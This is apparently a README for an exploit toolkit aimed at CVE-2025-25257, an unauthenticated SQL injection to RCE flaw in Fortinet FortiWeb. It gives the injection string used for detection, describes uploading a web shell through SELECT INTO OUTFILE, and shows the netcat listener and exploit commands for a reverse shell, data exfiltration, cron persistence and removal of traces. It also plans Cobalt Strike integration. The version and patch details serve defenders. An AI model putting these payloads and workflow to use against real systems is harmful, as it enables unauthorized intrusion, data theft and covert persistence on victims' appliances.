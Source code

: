 # FortiWeb RCE Toolkit 🔐

Automated proof‑of‑concept tool for **CVE‑2025‑25257** in Fortinet FortiWeb — featuring **reverse shell**, **encrypted data exfiltration**, **persistence**, and **cleanup**. This toolkit is **strictly for isolated lab/testing environments**. **DO NOT USE in production.**

---

## ⚙️ Features

- ✔️ **Pre‑auth detection** of vulnerable FortiWeb versions (7.0.0–7.0.10, 7.2.0–7.2.10, 7.4.0–7.4.7, 7.6.0–7.6.3)
- 🐚 **Reverse shell** (bash) via `/cgi-bin/shell.sh`
- 📤 **Encrypted data exfiltration** to `/tmp/exfil.txt` (Base64‑encoded)
- 🕒 **Persistence** via cron job (`/etc/cron.d/sys`)
- 🧹 **Full cleanup**: removes shell, cron job, and SQL traces
- 🔒 Active only while listener runs and cleanup occurs

---

## 📊 Severity & Affected Versions

- **CVE‑2025‑25257**: Unauthenticated SQL injection → Remote Code Execution (RCE)
- **CVSS v3.1**: **9.6 (Critical)**
- **Vulnerable versions**:
  - FortiWeb 7.0.0–7.0.10 → Upgrade to **7.0.11+**
  - FortiWeb 7.2.0–7.2.10 → Upgrade to **7.2.11+**
  - FortiWeb 7.4.0–7.4.7 → Upgrade to **7.4.8+**
  - FortiWeb 7.6.0–7.6.3 → Upgrade to **7.6.4+**

---

## 📋 Requirements

- Python **3.6+**
- Install `requests`:
  ```bash
  pip install requests


---
## 🚀 Usage

```bash
git clone https://github.com/youruser/fortiweb_rce_toolkit.git
cd fortiweb_rce_toolkit

# Start listener
nc -lnvp 4444

# Run exploit
python3 exploit.py <target> --https --lhost <your_ip> --lport 4444 \
  [--exfil "user(),version()"] [--persist]

# After shell exits, press ENTER to cleanup
```

* `--https` if target uses HTTPS

* `--lhost` & `--lport` must match listener settings

* `--exfil` (optional): SQL expression to exfiltrate

* `--persist` (optional): enables cron persistence

---

## 🔧 Technical Workflow

1. Detection via injection (`Authorization: Bearer AAAAAA'or'1'='1`)

2. Upload shell using `SELECT INTO OUTFILE`

3. Optionally exfiltrate data to `/tmp/exfil.txt`

4. Optionally set cron persistence

5. Reverse shell execution

6. Cleanup: shell removal, cron job deletion, SQL cleanup

---

## ⚠️ Warnings & Ethics

* ⚠️ Use **only in lab environments**

* ⚠️ **Illegal/unethical** on production

* 🚨 Patch FortiWeb to **7.0.11+, 7.2.11+, 7.4.8+, or 7.6.4+**

* 🛡️ Consider disabling HTTP/HTTPS management until patched

---

## 🛠️ Future Enhancements

* TLS‑encrypted reverse shell

* Encrypted exfil (SCP, S3)

* Automated C2 communication

* Integration with Red Team frameworks (Cobalt Strike, Covenant)

---

## 📚 References

* Fortinet FortiGuard PSIRT

* BleepingComputer, TheHackerNews, SecurityOnline

* EventusSecurity, InfoSecBulletin, Arctic Wolf, Tenable

---

## 📄 License

MIT License © 2025 `<YourName>`
